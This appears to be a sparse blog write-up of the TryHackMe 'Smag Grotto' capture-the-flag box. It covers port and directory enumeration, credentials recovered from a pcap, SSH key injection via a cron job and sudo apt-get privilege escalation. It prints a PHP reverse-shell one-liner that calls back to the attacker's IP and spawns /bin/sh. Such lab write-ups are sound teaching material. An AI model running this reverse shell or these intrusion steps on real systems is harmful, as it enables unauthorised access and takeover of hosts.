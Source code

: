 ```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program. 


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

nmap 10.10.6.75
-Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST
-Nmap scan report for 10.10.6.75
-Host is up (0.085s latency).
-Not shown: 998 closed tcp ports (conn-refused)
-PORT   STATE SERVICE
-22/tcp open  ssh
-80/tcp open  http
-
-Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 

/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/] 
/index.php            (Status: 200) [Size: 402]

/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.

nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. 

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
